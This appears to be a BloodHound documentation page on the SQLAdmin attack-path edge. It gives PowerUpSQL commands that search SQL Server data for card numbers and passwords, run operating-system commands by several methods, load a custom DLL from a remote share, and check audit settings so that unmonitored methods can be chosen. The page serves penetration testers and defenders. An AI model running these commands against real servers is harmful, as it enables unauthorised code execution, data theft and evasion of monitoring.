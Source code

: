 ```yaml
---
title: SQLAdmin
---
```


<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration for MSSQL is to have the local Windows account or Active Directory domain account that is configured to run the SQL Server service (the primary database engine for SQL Server) have sysadmin privileges in the SQL Server application. As a result, the SQL Server service account can be used to log into the SQL Server instance remotely, read all of the databases (including those protected with transparent encryption), and run operating systems command through SQL Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances and the associated service account can be identified by executing a LDAP query for a list of “MSSQLSvc” Service Principal Names (SPN) as a domain user. In short, when the Database Engine service starts, it attempts to register the SPN, and the SPN is then used to help facilitate Kerberos authentication.

This clip demonstrates how to abuse this edge:

<iframe id="youtube-1659" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for 2 11 BloodHound Head to Tail Andy Robbins Rohan Vazarkar" width="100%" height="420" src="https://www.youtube.com/embed/fqYoOoghqdE?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp;widget_referrer=https%3A%2F%2Fsupport.bloodhoundenterprise.io%2Fhc%2Fen-us%2Farticles%2FSQLAdmin&amp;rel=0&amp;showinfo=0&amp;iv_load_policy=3&amp;modestbranding=1&amp;customControls=true&amp;noCookie=false&amp;enablejsapi=1&amp;origin=https%3A%2F%2Fsupport.bloodhoundenterprise.io&amp;widgetid=1" data-gtm-yt-inspected-6="true"></iframe>

Abuse Info
-----------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before executing any of the below commands, download PowerUpSQL and load it into your PowerShell instance. Get PowerUpSQL here: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Finding Data**

Get a list of databases, sizes, and encryption status:
```
Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\\instance –Threads 10 -NoDefaults
```
Search columns and data for keywords:
```
Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize
```
**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system commands on remote systems through SQL Server using different techniques. The level of access on the operating system will depend largely what privileges are provided to the service account. However, when domain accounts are configured to run SQL Server services, it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:
```
Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance
```
Agent Job Execution Examples:
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\\windows\\temp\\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\\windows\\temp\\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Python Subsystem Execution:
```
Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance
```
R subsystem Execution Example:
```
Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
OLE Execution Example:
```
Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance
```
CLR Execution Example:
```
Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
Custom Extended Procedure Execution Example:

1.  Create a custom extended stored procedure:
```
Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\\temp\\test.txt" -ExportName xp_test
```
2.  Host the test.dll on a share readable by the SQL Server service account:
```
Get-SQLQuery -Verbose -Query "sp\_addextendedproc 'xp\_test', '\\\yourserver\\yourshare\\myxp.dll'" -Instance sqlserver\instance
```
3.  Run extended stored procedure:
```
Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance
```
4.  Remove extended stored procedure:
```
Get-SQLQuery -Verbose -Query "sp\_dropextendedproc 'xp\_test'" -Instance sqlserver\instance
```
Opsec Considerations
---------------------

Prior to executing operating system commands through SQL Server, review the audit configuration and choose a command execution method that is not being monitored.

View audits:
```
SELECT * FROM sys.dm\_server\_audit_status
```
View server specifications:
```
SELECT audit_id,
a.name as audit_name,
s.name as server\_specification\_name,
d.audit\_action\_name,
s.is\_state\_enabled,
d.is_group,
d.audit\_action\_id,
s.create_date,
s.modify_date
FROM sys.server_audits AS a
JOIN sys.server\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.server\_audit\_specification_details AS d
ON s.server\_specification\_id = d.server\_specification\_id
```
View database specifications:
```
SELECT a.audit_id,
a.name as audit_name,
s.name as database\_specification\_name,
d.audit\_action\_name,
d.major_id,
OBJECT_NAME(d.major_id) as object,
s.is\_state\_enabled,
d.is_group, s.create_date,
s.modify_date,
d.audited_result
FROM sys.server_audits AS a
JOIN sys.database\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.database\_audit\_specification_details AS d
ON s.database\_specification\_id = d.database\_specification\_id
```
If server audit specifications are configured on the SQL Server, event ID 15457 logs may be created in the Windows Application log when SQL Server level configurations are changed to facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may be created in the Windows Application log when Agent and database level configuration changes are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and configuring audit configurations can be found at [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql)

References
----------

* [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
* [https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation](https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation)
* [https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)
* [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017)
* [https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)

